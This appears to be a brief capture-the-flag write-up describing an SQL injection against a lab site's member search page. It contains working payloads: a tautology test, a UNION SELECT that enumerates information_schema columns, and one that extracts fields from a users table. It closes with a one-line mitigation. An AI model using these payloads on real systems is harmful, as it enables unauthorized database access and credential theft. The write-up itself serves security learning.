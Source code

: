 On `http://$IP/?page=member`. type '1 OR 1=1' into search field, this indicates it can be exploited by sql injection.

We look for the list of table and there columns using:

```
1 AND false UNION SELECT table_name, column_name FROM information_schema.columns
```

We craft the last injection where we try all the columns, and We did it.

```
1 AND false UNION SELECT Commentaire, countersign FROM users
```

> How to secure:
>
> - Sanitize input.
